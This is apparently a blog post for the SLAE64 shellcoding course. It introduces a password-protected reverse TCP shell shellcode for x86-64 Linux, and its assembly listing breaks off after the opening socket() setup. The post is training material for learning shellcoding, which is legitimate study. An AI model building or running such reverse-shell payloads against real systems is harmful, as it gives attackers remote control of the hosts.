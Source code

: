 ```yaml
---
layout: single
title: SLAE64 Assignment 2 - Shell Reverse Tcp with Password
date: 2020-6-03
classes: wide
header:
  teaser: /assets/images/slae/SHELLCODING64.png
tags:
    - Shellcoding
    - Linux
    - x64
    - SLAE64
---
```


![](/assets/images/slae/SHELLCODING64.png)

## Introduction
  
The tasks for this second assignment are in a first time to create a shell reverse tcp shellcode, that will need a password before executing the shell, and in a second time to remove all null bytes from the reverse tcp shellcode discussed during the course.

All the source code for this assignment can be find on my [github repository](https://github.com/skr0x/SLAE64/tree/master/Assignment-02-Shell_reverse_tcp)

## Shell reverse tcp with password

Like in the previous assignement, we cannot use socketcall so we will use the connect syscall to initialize a connection to our netcat listener, and other syscalls that we have already seen.
And this time if a bad password is entered, we will exit properly.

```plaintext
; skrox@kali:~$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h |grep -E 'socket |connect |dup2|read |execve |exit '
; #define __NR_read 0
; #define __NR_dup2 33
; #define __NR_socket 41
; #define __NR_connect 42
; #define __NR_execve 59
; #define __NR_exit 60

global _start

section .text

_start:

   ; socket(AF_INET, SOCK_STREAM, 0) 
   xor edi, edi             
   mul edi                      ; rax, rdx, rdi set to 0
   inc edi              
   mov esi, edi                 ; SOCK_STREAM
   inc edi                      ; AF_INET
   mov al, 41                   ; socket
```